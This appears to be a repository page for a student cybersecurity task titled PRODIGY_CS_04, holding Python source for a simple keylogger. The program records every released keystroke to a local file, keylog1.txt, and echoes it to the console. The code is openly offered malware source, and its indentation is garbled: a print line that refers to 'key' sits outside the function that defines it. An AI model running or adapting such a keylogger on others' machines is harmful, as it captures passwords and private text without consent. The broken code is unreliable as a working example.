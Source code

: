 # PRODIGY_CS_04
A basic keylogger program that records and logs keystrokes.
# Import the keyboard module for handling keyboard events
    import keyboard  
# Define the log file where keystrokes will be recorded

    log_file = "keylog1.txt"  
    def write_to_log(key):
# Function to write keystrokes to the log file
      with open(log_file, "a") as f:
        f.write(key)
# Function to handle the key events
    def on_key_event(e):
    
      key = e.name
      if len(key) > 1:
          if key == "space":
              key = " "
          elif key == "enter":
              key = "\n"
          elif key == "decimal":
              key = "."
          else:
              key = f"[{key}]"
      write_to_log(key)
# Print the key to the console
    print(key, end='', flush=True)  

    def main():
# Main function to start the keylogger
      print("Keylogger started. Press 'Esc' to exit.")
      keyboard.on_release(on_key_event)  # Set up the event listener for key release
      keyboard.wait("esc")  # Wait for the 'Esc' key to stop the keylogger
      print("\nKeylogger stopped.")

    if __name__ == "__main__":
      main()
